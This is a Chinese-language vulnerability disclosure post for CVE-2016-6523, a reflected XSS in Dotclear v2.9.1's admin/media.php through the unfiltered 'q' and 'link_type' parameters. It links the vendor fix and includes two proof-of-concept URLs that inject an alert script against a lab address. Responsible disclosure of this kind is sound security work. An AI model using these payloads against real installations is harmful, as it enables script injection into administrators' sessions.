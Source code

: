 ```yaml
---
layout: post
title: Dotclear v2.9.1反射型xss
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

CVE ID: CVE-2016-6523

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

Dotclear v2.9.1 有一个反射型xss

/admin/media.php

line 34 $link_type = !empty($_REQUEST['link_type']) ? $_REQUEST['link_type'] : null;

line 62 $q = isset($_REQUEST['q']) ? $_REQUEST['q'] : null;

link_type 跟 q 参数缺少过滤

**PoC:**

http://172.16.146.130/dotclear/admin/media.php?q=77777%3C%2Fspan%3E%3Cscript%3Ealert(1)%3C/script%3E&popup=0&select=0&plugin_id=&post_id=&link_type=

http://172.16.146.130/dotclear/admin/media.php?q=77777&popup=0&select=0&plugin_id=&post_id=&link_type=8888%22%3E%3Cscript%3Ealert(1)%3C/script%3E

**修复方案:**

https://hg.dotclear.org/dotclear/rev/40d0207e520d